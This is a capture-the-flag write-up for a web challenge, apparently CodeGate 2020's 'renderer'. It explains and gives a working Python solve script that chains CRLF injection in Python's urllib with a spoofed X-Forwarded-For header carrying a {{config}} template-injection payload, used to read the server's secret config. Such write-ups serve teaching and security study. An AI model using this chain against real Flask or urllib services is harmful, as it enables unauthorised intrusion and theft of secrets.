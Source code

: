 ```python
    if path.exists("/home/tickets/%s" % ticket):
        with open("/home/tickets/%s" % ticket, "r") as f:
            return f.read()
    else:
        return False
```

I don't know what `write_extend_log`, `127.0.0.2`, `admin_local` are used for. Anyway:

1. The objective is `render_template_string` to RCE / read `config` because the flag is in `config`
2. `get_real_ip` will get the IP address from a user-controlled HTTP header `X-Forwarded-For`
3. Accourding to `Dockerfile`, this python urllib is vulnerable to [CRLF injection](https://bugs.python.org/issue36276).

The first `renderer/admin` should be easy to do. The real problem is the second `user-agent` one, because `urllib2` will also append its `user-agent` in the HTTP header. I was trying to inject `\r\n\r\n` to make the header become part of the HTTP body part, but nginx considers that's an invalid request and thus reply with HTTP 400.

After more fuzzing, I found HTTP version is somehow related to this behavior. Injecting `\r\n\r\n` in HTTP/1.1 does not work for me, however to my surprise, HTTP/1.0 seems to work well here. The reason seems to be related to the `Host:` header. In order to make it work in HTTP/1.1, [you need to inject `Host: 127.0.0.1\r\n`](https://github.com/empty-jack/ctf-writeups/blob/master/CodeGate-2020/web-renderer.md). I don't know if the root cause is RFC or nginx. Please let me know by creating a GitHub issue if you have anything in your mind. with HTTP/1.1. Not really sure how nginx parses these chaotic headers.

Btw, HTTP version trick also appears in [Plaid CTF 2019](https://blog.pspaul.de/posts/plaidctf-2019-potent-quotables/).

Here is my final payload:

```python
#!/usr/bin/env python3                                                                                                                   
import requests
import re

s = requests.session()

url = 'http://127.0.0.1/renderer/admin HTTP/1.1\r\nX-Forwarded-For:{{config}}YOLOzzw\r\n'
r = s.post('http://58.229.253.144/renderer/', data=dict(url=url))
print(r.text)
tid = re.findall('([0-9a-f]{40})', r.text)[0]

url = f'http://127.0.0.1/renderer/admin/ticket?ticket={tid} HTTP/1.0\r\nUser-agent: AdminBrowser/1.337\r\n\r\nA:'
r = s.post('http://58.229.253.144/renderer/', data=dict(url=url))
print(r.text, r.status_code)
```

#### Train of Thought

1. Guessing the nginx path traversal trick to retrieve the source code
2. Find out the Python version is vulnerable to HTTP header injection by virtual of CRLF injection
